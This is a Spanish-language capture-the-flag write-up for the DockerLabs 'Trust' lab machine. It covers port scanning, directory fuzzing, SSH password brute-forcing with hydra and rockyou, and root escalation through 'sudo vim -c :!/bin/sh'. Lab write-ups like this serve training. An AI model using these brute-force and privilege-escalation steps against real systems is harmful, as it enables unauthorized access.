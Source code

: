 ```yaml
---
layout: post
title: "Trust"
date: 2024-06-28 15:20:23
category: sample
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Trust </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="reeasy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/trust/host.png){:.margin}

**1\.** Escaneo los puertos y servicios en el host objetivo.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.17.0.2`

![img](/notas/public/img/dockerlabs/trust/nmap.png){:.margin}

**2\.** En la web corre la pagina Apache por defecto.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/trust/80.png){:.margin}

**3\.** Hago fuzzing de recursos en la web.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/dockerlabs/trust/gobuster.png){:.margin}

**4\.** En este archivo php podemos pillar un posible usuario.

`http://172.17.0.2/secret.php`

![img](/notas/public/img/dockerlabs/trust/secret.png){:.margin}

**5\.** Haciendo fuerza bruta al ssh.

`hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/trust/hydra.png){:.margin}

**6\.** Accedo por ssh como mario.

`ssh mario@172.17.0.2`

![img](/notas/public/img/dockerlabs/trust/sshmario.png){:.margin}

**7\.** Revisando los permisos sudo, tengo este binario que puedo ejecutarlo como root.

`sudo -l`

![img](/notas/public/img/dockerlabs/trust/sudol.png){:.margin}

**8\.** Escalando privilegios.

_8.1- Busco en [gtfobins](https://gtfobins.github.io/gtfobins/vim/#sudo) para ver la forma de uso del binario_

`sudo vim -c ':!/bin/sh'`

_8.2- Ya somos root_

![img](/notas/public/img/dockerlabs/trust/root.png){:.margin}

<br>

<a href="">_Finalizado._</a>